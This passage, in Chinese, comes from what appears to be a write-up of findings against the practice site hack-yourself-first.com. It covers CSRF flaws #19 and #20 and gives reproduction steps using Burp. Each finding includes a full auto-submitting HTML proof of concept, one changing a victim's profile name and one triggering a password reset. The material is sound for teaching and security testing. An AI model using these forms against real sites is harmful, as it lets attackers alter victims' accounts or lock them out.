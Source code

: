 将 `$newpassword` 更新为你希望更改的密码。

# 19 使用 CSRF 编辑个人资料

摘要：CSRF（跨站请求伪造）使攻击者能够更改受害者账户的姓名。

复现步骤：进入编辑个人资料页面，输入任意文本并在 Burp 中捕获请求。然后右键点击请求，选择“engagement tools”，生成 CSRF PoC。在选项中启用自动提交脚本，点击重新生成并复制代码，丢弃请求。现在，在你的系统中创建一个 HTML 文件，粘贴复制的 CSRF PoC 并保存，运行该文件。现在你可以看到你的名字和姓氏已经被更改。

影响：攻击者可以编辑受害者的个人资料。

如果你没有 Burpsuite pro，这里是 CSRF PoC：

```html
<html>
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="https://hack-yourself-first.com/Account/UserProfile/$userid" method="POST">
      <input type="hidden" name="IsAdmin" value="" />
      <input type="hidden" name="UserId" value="333" />
      <input type="hidden" name="FirstName" value="$firstname" />
      <input type="hidden" name="LastName" value="$lastname" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```

将 `$userid`, `$firstname` 和 `$lastname` 更新为相应的值。

# 20 使用 CSRF 重置密码

摘要：CSRF（跨站请求伪造）使得攻击者能够重置受害者的密码。

复现步骤：创建一个账户并登出。进入登录页面，转到忘记密码，输入电子邮件并点击重置。现在在 Burp 中捕获请求。然后右键点击请求，选择“engagement tools”，生成 CSRF PoC。在选项中启用自动提交脚本，点击重新生成并复制代码，丢弃请求。现在，在你的系统中创建一个 HTML 文件，粘贴复制的 CSRF PoC 并保存，运行该文件。现在你可以看到系统提示“你的密码已被重置，你将很快通过电子邮件收到一个新密码。”这与 #14 和 #15 类似，但攻击方法不同。

影响：由于这个漏洞，攻击者可以在合法用户不知情的情况下重置密码，而且大多数用户使用假电子邮件创建账户，这可能导致永久的账户锁定。

如果你没有 Burps

uite pro，这里是 CSRF PoC：

```html
<html>
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="https://hack-yourself-first.com/Account/ResetPassword" method="POST">
      <input type="hidden" name="Email" value="email&#64;email&#46;$email" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```
